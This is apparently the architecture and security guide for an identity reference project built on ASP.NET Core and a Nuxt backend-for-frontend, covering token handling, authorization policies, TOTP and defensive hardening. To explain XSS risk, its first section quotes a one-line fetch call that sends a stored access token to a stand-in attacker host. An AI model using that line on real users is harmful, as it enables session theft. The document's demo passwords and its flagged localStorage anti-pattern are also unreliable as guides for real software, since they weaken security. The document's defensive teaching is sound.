


# Architecture & Security Concepts: From First Principles

This document serves as the comprehensive architectural and engineering guide for this reference implementation. It explains the design principles, threat models, cryptographic mechanisms, and operational flows of the system—from foundational web security fundamentals up to advanced enterprise zero-trust patterns.

---

## 1. The Core Problem: Why Traditional Web Auth Fails

Most web applications struggle with authentication and authorization because they attempt to bridge two conflicting worlds:
1. **The Browser (Single-Page App / Client)**: An inherently hostile, untrusted execution environment where user code, third-party libraries, browser extensions, and injected scripts (XSS) run with equal privilege.
2. **The API (Resource Server)**: A backend that requires cryptographically verifiable proof of caller identity and permissions on every single HTTP request.

### The Failure of `localStorage` JWT Storage
In tutorial-grade applications, the frontend calls `/api/login`, receives an access token and refresh token in the response JSON, and saves them in `window.localStorage`:
```javascript
// ❌ CRITICAL SECURITY VULNERABILITY
localStorage.setItem('accessToken', data.accessToken);
localStorage.setItem('refreshToken', data.refreshToken);
```
**Why this breaks in production:**
* **Cross-Site Scripting (XSS)**: Any JavaScript running on the page can execute `fetch('https://attacker.com/steal?tok=' + localStorage.getItem('accessToken'))`. Once stolen, the attacker can impersonate that user from anywhere in the world until the token expires.
* **Token Rotation Race Conditions**: If a user opens three tabs and each tab fires a network request simultaneously as the access token expires, three independent refresh requests hit the authorization server. With strict refresh token rotation, this triggers token reuse detection and invalidates the user's session entirely.

### The Failure of Plain Cookies
Setting an ordinary cookie (`Set-Cookie: token=...`) directly from an external API to the browser introduces **Cross-Site Request Forgery (CSRF)**:
* Browsers automatically attach cookies to cross-site requests. If an attacker lures a user to `evil.com`, a hidden form submitting to `api.yourdomain.com/transfer-funds` automatically includes the user's cookie unless complex cross-origin defenses are configured.
* Browsers and firewalls struggle with Cross-Origin Resource Sharing (CORS) preflight complexity (`OPTIONS` requests), leading teams to inadvertently configure permissive wildcards (`Access-Control-Allow-Origin: *`).

---

## 2. The Solution: Backend-for-Frontend (BFF) Pattern

To eliminate both token theft (XSS) and cross-origin complexity, this repository implements the **Backend-for-Frontend (BFF)** pattern.

### Architectural Topology



### Core Security Guarantees
1. **The Browser Never Touches a Token**: The browser never sees or stores a JWT access token or a refresh token.
2. **Sealed Cookie Storage**: Nuxt's server unseals and decrypts session data from an `httpOnly`, `Secure`, `SameSite=Lax` cookie prefixed with `__Host-` ([web/server/utils/session.ts](file:///d:/Projects/Code/ant/IdentityFullstack/web/server/utils/session.ts)). Client-side JavaScript cannot read or extract this cookie.
3. **No Direct Internet Exposure for the API**: The ASP.NET Core API has **zero CORS configuration** because browsers never talk to it directly. It communicates exclusively with the Nuxt BFF over an internal network.
4. **Transparent Proxying & Single-Flight Mutex**:
   When the browser makes a request to `/api/v1/notes`, the Nuxt BFF proxy ([web/server/api/v1/[...path].ts](file:///d:/Projects/Code/ant/IdentityFullstack/web/server/api/v1/%5B...path%5D.ts)):
   - Unseals the encrypted session cookie.
   - Checks if the access token has expired.
   - If expired, executes a **single-flight mutex refresh**: concurrent requests coalesce onto a single refresh call, acquiring a new token pair and updating the cookie before fulfilling all queued requests.
   - Attaches `Authorization: Bearer <JWT>` and forwards client IP and User-Agent headers to the API.

---

## 3. Authentication vs. Authorization: Deep Dive

Understanding the separation between authentication and authorization is the foundation of secure system design.

```text
┌───────────────────────────────────────────────┐
│              AUTHENTICATION                   │
│            "Who are you?"                     │
│  - Email & Password Verification              │
│  - Cryptographic Salted Hashing (PBKDF2)      │
│  - Two-Factor Authenticator (TOTP RFC 6238)   │
│  - Issues: Identity Assertion (JWT)           │
└───────────────────────┬───────────────────────┘
                        │ Caller Presents Proof
                        ▼
┌───────────────────────────────────────────────┐
│               AUTHORIZATION                   │
│        "What are you allowed to do?"          │
│  - Does caller have permission 'notes.read'?  │
│  - Has MFA step-up been satisfied?            │
│  - Does caller OWN this specific resource?    │
│  - Enforces: Access Policies (Allow / Forbid) │
└───────────────────────────────────────────────┘
```

### ASP.NET Core Identity Internals
ASP.NET Core Identity provides the underlying user store and security infrastructure:
* **`AppUser` ([Domain/Entities/AppUser.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Domain/Entities/AppUser.cs))**: Extends `IdentityUser<Guid>`. Maintains account metadata including `EmailConfirmed`, `TwoFactorEnabled`, `LockoutEnd`, and `AccessFailedCount`.
* **Password Hashing**: Managed by `PasswordHasher<AppUser>`, utilizing PBKDF2 with HMAC-SHA256/SHA-512, 100,000 iterations, and a cryptographically random salt. Plaintext passwords never touch persistence or memory beyond validation.
* **`SecurityStamp`**: An opaque string regenerated whenever an account's security posture changes (password reset, email verification, 2FA enrollment). The API verifies that the security stamp inside an active session matches the user's current security stamp; if not, all outstanding tokens are immediately rejected.

---

## 4. Authorization Architecture: Policies Over Roles

### The Problem With Role Checks
Traditional codebases scatter role checks throughout endpoints:
```csharp
// ❌ Rigid and difficult to maintain
[Authorize(Roles = "Admin,Support,Manager")]
```
This couples endpoints directly to business titles. Adding a new role requires auditing and modifying dozens of controller endpoints across the codebase.

### The Solution: Permission-Based Policies
This architecture completely decouples permissions from role titles:



1. **Permissions are Atomic Capabilities**: Defined in [Common/Constants/Permissions.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Common/Constants/Permissions.cs):
   * `profile.manage`: Update user profile and change password.
   * `notes.manage.own`: Create, read, and delete personal notes.
   * `users.read`: View user directory.
   * `audit.read`: View security audit event log.
   * `users.manage`: Lock, unlock, and manage user accounts.
   * `notes.moderate`: View and delete any note across the system.
2. **Roles are Permission Bundles**: Roles exist solely to assign sets of permissions to users via `AspNetRoleClaims`.
3. **Architecture Tests Enforce the Rule**: A NetArchTest rule ([Identity.ArchitectureTests](file:///d:/Projects/Code/ant/IdentityFullstack/api/tests/Identity.ArchitectureTests/ArchitectureTests.cs)) scans the compiled API assembly and fails the build if any endpoint attempts to use `[Authorize(Roles = "...")]`.

### Resource-Based Authorization
Checking whether a user has permission to touch *a specific record* cannot be done with endpoint attributes alone. We use ASP.NET Core's `IAuthorizationService` with custom resource handlers ([Security/Authorization/NoteAuthorizationHandler.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Security/Authorization/NoteAuthorizationHandler.cs)):
* When accessing `Note #104`, the endpoint retrieves the note and evaluates:
  ```csharp
  var result = await authorizationService.AuthorizeAsync(User, note, NoteOperations.Update);
  if (!result.Succeeded) return Results.Forbid();
  ```
* **Ownership Rule**: The creator of a note can Read, Update, and Delete it.
* **Moderator Rule**: A user holding `notes.moderate` with **MFA satisfied** can Read and Delete any note, but cannot edit its contents.

### The Source of Truth: `/me/policies`
The Nuxt frontend never duplicates authorization logic with client-side role checks.
Instead, upon session initialization, Nuxt fetches `GET /api/v1/me/policies`. The ASP.NET Core API iterates every registered policy via `IAuthorizationService` and returns an authoritative capability map:
```json
{
  "panel.user": { "allowed": true, "reason": null },
  "panel.admin": { "allowed": false, "reason": "mfa_required" },
  "users.manage": { "allowed": false, "reason": "missing_permission" }
}
```
The frontend [`usePolicies()`](file:///d:/Projects/Code/ant/IdentityFullstack/web/app/composables/usePolicies.ts) composable provides a reactive `can('panel.admin')` helper. The UI adjusts navigation items, action buttons, and panels based strictly on the server's authoritative policy decisions.

---

## 5. Token Architecture & Cryptographic Integrity

### Why ES256 Over RS256 and HS256?
* **HS256 (Symmetric HMAC)**: Requires sharing a secret between issuer and validator. If any validating service is compromised, attackers can forge arbitrary valid tokens.
* **RS256 (RSA 2048+)**: Asymmetric, but keys and signatures are large (256-byte signatures). RSA computation is CPU-intensive.
* **ES256 (ECDSA using Curve P-256 with SHA-256)**:
  * **Asymmetric**: Only the API holds the private signing key (`secrets/signing-key.pem`). Public keys are exposed via standard JWKS (`/.well-known/jwks.json`).
  * **Performance & Size**: Compact 64-byte signatures with fast elliptic-curve math.

### Token Type Discrimination (RFC 9068)
Every access token includes an explicit type header:
```json
{
  "alg": "ES256",
  "typ": "at+jwt",
  "kid": "identity-signing-key-v1"
}
```
Validating `typ: at+jwt` ensures access tokens cannot be confused with identity tokens, state parameters, or client assertions.

### Refresh Token Lifecycle & Family Revocation
Refresh tokens are high-entropy, 256-bit cryptographically secure strings stored as SHA-256 hashes in the database.
1. **Single-Use Rotation**: Every time a refresh token is exchanged, it is immediately revoked, and a brand new refresh token is issued.
2. **30-Second Concurrency Grace Period**: To prevent transient network drops or parallel client requests from bricking a session, a rotated token can still be redeemed for up to 30 seconds.
3. **Automatic Reuse Detection**: If a revoked token is presented *after* the 30-second window, the system detects a potential token theft replay attack. The entire token family and **all active sessions for that user are immediately revoked**, forcing re-authentication.

```mermaid
sequenceDiagram
    autonumber
    actor User as User Browser
    participant BFF as Nuxt BFF Server
    participant API as ASP.NET Core API
    participant DB as PostgreSQL DB

    Note over User,BFF: User interacts with application
    User->>BFF: GET /api/v1/notes (Cookie: __Host-id_session)
    BFF->>BFF: Detects Access Token Expired (10m lifespan)
    
    Note over BFF,API: Single-Flight Mutex Token Refresh
    BFF->>API: POST /api/v1/auth/refresh (RefreshToken: RT-1)
    API->>DB: Validate SHA-256(RT-1)
    DB-->>API: Valid & Unrevoked
    API->>DB: Mark RT-1 Revoked + Store RT-2 Hash
    API-->>BFF: 200 OK (New Access Token + RT-2)
    
    BFF->>API: GET /api/v1/notes (Bearer &lt;New Access Token&gt;)
    API-->>BFF: 200 OK (User Notes JSON)
    BFF-->>User: 200 OK + Set-Cookie: __Host-id_session (Sealed with RT-2)
```

---

## 6. Two-Factor Authentication (TOTP) & Step-Up Security

### Mathematical Foundation (RFC 6238)
Time-Based One-Time Passwords compute an HMAC-SHA1 digest over a shared secret and the current 30-second Unix time counter:
$$\text{Counter} = \lfloor \frac{\text{CurrentUnixTime}}{30} \rfloor$$
The resulting hash is truncated to a 6-digit numeric code. The server tolerates a $\pm 1$ time-step window (90 seconds total) to accommodate clock drift.

### The `amr` (Authentication Methods Reference) Claim
When a user logs in with email and password alone, their JWT access token contains:
```json
{
  "amr": ["pwd"]
}
```
When they successfully complete the TOTP challenge, a fresh token is issued with:
```json
{
  "amr": ["pwd", "mfa"]
}
```
Policies like `panel.admin` and administrative moderation operations evaluate this claim via the custom `MfaRequirement` ([Security/Authorization/MfaRequirement.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Security/Authorization/MfaRequirement.cs)).

### Forced MFA Enrollment Route Guard
When an administrative user without MFA enabled logs in, the `panel.admin` policy returns `{ "allowed": false, "reason": "mfa_required" }`.
Nuxt's global router middleware ([web/app/middleware/auth.global.ts](file:///d:/Projects/Code/ant/IdentityFullstack/web/app/middleware/auth.global.ts)) detects this condition and automatically redirects the user to:
```text
/auth/mfa-enroll?required_mfa=1
```
The user is guided through the QR enrollment flow and cannot access the admin console until their second factor is confirmed and verified.

---

## 7. Defensive Hardening Strategies

| Threat | Mitigation Strategy | Location in Codebase |
|---|---|---|
| **Cross-Site Request Forgery (CSRF)** | Multi-layer check: `__Host-` cookie attributes + custom header check (`X-Requested-With`) + `Sec-Fetch-Site` verification. | [web/server/middleware/csrf.ts](file:///d:/Projects/Code/ant/IdentityFullstack/web/server/middleware/csrf.ts) |
| **Token Leakage via HTTP Referer** | Email verification and reset tokens are delivered in the **URL hash fragment (`#token=...`)**, not in query parameters. Fragments are never transmitted in HTTP request or Referer headers. | [web/app/pages/auth/verify-email.vue](file:///d:/Projects/Code/ant/IdentityFullstack/web/app/pages/auth/verify-email.vue) |
| **User Enumeration Attacks** | Generic constant-time HTTP responses for `/register`, `/forgot-password`, and `/resend-verification`. The API returns identical responses regardless of whether the email exists. | [api/src/Identity.Api/Endpoints/AuthEndpoints.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Endpoints/AuthEndpoints.cs) |
| **Brute-Force & Denial of Service** | ASP.NET Core partitioned rate limiting with fixed-window buckets keyed by client IP and user identity. | [api/src/Identity.Api/Program.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Program.cs) |
| **Insecure Direct Object References (IDOR)** | Entity ownership validation via `IAuthorizationService.AuthorizeAsync` on every resource mutation. | [api/src/Identity.Api/Endpoints/NotesEndpoints.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Endpoints/NotesEndpoints.cs) |
| **Information Disclosure in Errors** | Custom `IAuthorizationMiddlewareResultHandler` emitting RFC 9457 `ProblemDetails` (`auth.forbidden`, `auth.mfa_required`) without revealing missing permission keys. | [api/src/Identity.Api/Middleware/ProblemDetailsResultHandler.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Middleware/ProblemDetailsResultHandler.cs) |
| **Tamper-Evident Security Auditing** | Structured security event emission recording timestamp, IP, User-Agent, user ID, event type, and outcome. | [api/src/Identity.Api/Domain/Entities/AuditEvent.cs](file:///d:/Projects/Code/ant/IdentityFullstack/api/src/Identity.Api/Domain/Entities/AuditEvent.cs) |

---

## 8. Repository Directory Map

```text
IdentityFullstack/
├── api/                                    # ASP.NET Core 10 Web API (.NET 10 LTS / C# 14)
│   ├── src/Identity.Api/
│   │   ├── Common/                         # Permissions, Policies, Options, ProblemDetails
│   │   ├── Domain/Entities/                # AppUser, AppRole, Note, RefreshToken, AuditEvent
│   │   ├── Email/                          # Channel-based async mail queue + Mailpit integration
│   │   ├── Endpoints/                      # Minimal APIs: Auth, Me, Notes, Admin, System
│   │   ├── Middleware/                     # RFC 9457 handler, session validator, proxy headers
│   │   ├── Persistence/                    # EF Core 10 AppDbContext & PostgreSQL migrations
│   │   ├── Security/                       # ES256 key manager, JWT factory, session store, TOTP
│   │   ├── Seeding/                        # Idempotent database seeder (admin, support, user)
│   │   └── Program.cs                      # Host configuration & security pipeline
│   └── tests/
│       ├── Identity.UnitTests/             # 32 unit tests (tokens, sessions, TOTP, passwords)
│       ├── Identity.ArchitectureTests/     # 3 NetArchTest rules (clean boundary, no role strings)
│       └── Identity.IntegrationTests/      # 38 integration tests (WebApplicationFactory + Postgres)
├── web/                                    # Nuxt 4 + Nuxt UI v4 Frontend & BFF
│   ├── app/
│   │   ├── components/                     # Reusable UI widgets (QR code generator, modals, dialogs)
│   │   ├── composables/                    # useAuth, useBff, usePolicies, useCsrf
│   │   ├── layouts/                        # auth.vue, default.vue (User panel), admin.vue (Admin console)
│   │   ├── middleware/                     # auth.global.ts (route guards & forced MFA redirects)
│   │   └── pages/
│   │       ├── auth/                       # login, register, verify-email, forgot-password, mfa-enroll
│   │       ├── app/                        # User Panel: notes CRUD, profile, sessions, security
│   │       └── admin/                      # Admin Console: user list, audit logs, note moderation
│   ├── server/                             # Nitro BFF Engine
│   │   ├── api/auth/                       # BFF auth handlers (login, register, logout, session)
│   │   ├── api/v1/[...path].ts             # Transparent BFF proxy to internal API with Bearer token
│   │   ├── middleware/csrf.ts              # CSRF protection on mutating requests
│   │   └── utils/session.ts                # Sealed cookie session manager & mutex token refresher
│   └── tests/                              # 30 Vitest tests (BFF proxy, CSRF, sessions, auth pages)
├── deploy/                                 # Production deployment configurations
│   ├── docker-compose.yml                  # Production compose topology (API, Web, DB, Mailpit, Nginx)
│   └── nginx/nginx.conf                    # Edge reverse proxy configuration
├── docs/                                   # Architecture Decision Records (ADRs) & Threat Models
│   ├── adr/                                # 18 ADRs covering all architectural decisions
│   └── security/                           # OWASP mapping, authorization matrix, threat model
├── e2e/                                    # Playwright End-to-End & Security Test Suite
└── scripts/                                # Maintenance & bootstrap scripts
    ├── init.ps1                            # Cryptographic key & environment initialization (PowerShell)
    └── init.sh                             # Cryptographic key & environment initialization (Bash)
```

---

## 9. Operator & Developer Manual

### Prerequisites
* [.NET 10 SDK](https://dotnet.microsoft.com/)
* [Node.js 22 LTS](https://nodejs.org/)
* PostgreSQL 17 & Mailpit (via Docker or local services)

### Step 1: Environment Initialization
Run the initialization script from the project root:
```powershell
./scripts/init.ps1
```
This generates the private ES256 key (`secrets/signing-key.pem`), public key (`secrets/public-key.pem`), and the `.env` configuration file with a cryptographically secure session password.

### Step 2: Database & Mail Infrastructure
Start PostgreSQL (port 5432) and Mailpit (SMTP port 1025, Web UI port 8025):
```powershell
docker compose -f deploy/docker-compose.yml up -d db mailpit
```
*(If running under WSL2 Debian without Docker, start services via `service postgresql start && service mailpit start`)*.

### Step 3: Run the Backend API
```powershell
dotnet run --project api/src/Identity.Api
```
The API automatically applies database migrations, seeds the default roles and user accounts, and starts listening on `http://localhost:5000`.

### Step 4: Run the Nuxt 4 Frontend
```powershell
npm run dev --prefix web
```
The frontend starts listening on `http://localhost:3000`.

### Step 5: Testing Core User & Security Flows

#### Flow 1: Registration with Anti-Leakage Email Verification
1. Navigate to `http://localhost:3000/auth/register`.
2. Register a new user (`newuser@example.com`).
3. Open the **Mailpit Web UI** at `http://localhost:8025`.
4. Open the confirmation email and click the link:
   `http://localhost:3000/auth/verify-email#token=...&userId=...`
5. The client router parses the token from the URL hash fragment and verifies the account.

#### Flow 2: Standard User Panel
1. Log in with `user@identity.local` / `Password123!`.
2. Notice the panel lands at `/app`. You can manage personal notes and profile details.
3. The Admin Console is hidden because the caller lacks admin policies.

#### Flow 3: TOTP 2FA Enrollment
1. Go to `/app/settings/security`.
2. Click **Enable 2FA**, scan the QR code in Google Authenticator or 1Password, and enter the 6-digit verification code.
3. Securely record the 10 emergency recovery codes.
4. Log out and log back in to verify the 2FA challenge gate.

#### Flow 4: Forced MFA Admin Access
1. Log in with `admin@identity.local` / `Password123!`.
2. Attempt to navigate to `/admin`.
3. The server policy `panel.admin` evaluates that the user has admin permissions but lacks an active MFA claim (`amr: mfa`).
4. Nuxt's global route guard intercepts and redirects to `/auth/mfa-enroll?required_mfa=1`.
5. Once enrolled, the admin console unlocks, granting access to the User Directory, Audit Log, and Notes Moderation.

#### Flow 5: Active Device Session Revocation
1. Open an Incognito window and log into `http://localhost:3000`.
2. Go to `/app/settings/sessions`.
3. View both concurrent sessions, each showing client IP, browser details, and active status.
4. Click **Revoke** on the first session.
5. In the first window, refresh the page: the session is immediately invalidated, returning the user to `/auth/login`.

---

## 10. Automated Verification Commands

All test suites and static checks can be executed locally:

```powershell
# 1. Run all 73 .NET 10 API tests (Unit, Architecture, Integration)
dotnet test api/Identity.slnx

# 2. Run all 30 Nuxt 4 BFF Vitest tests
npm test --prefix web

# 3. Run Nuxt 4 Vue & TypeScript static typecheck
npm run typecheck --prefix web

# 4. Run Playwright End-to-End & Security Suite
npx --prefix e2e playwright test
```
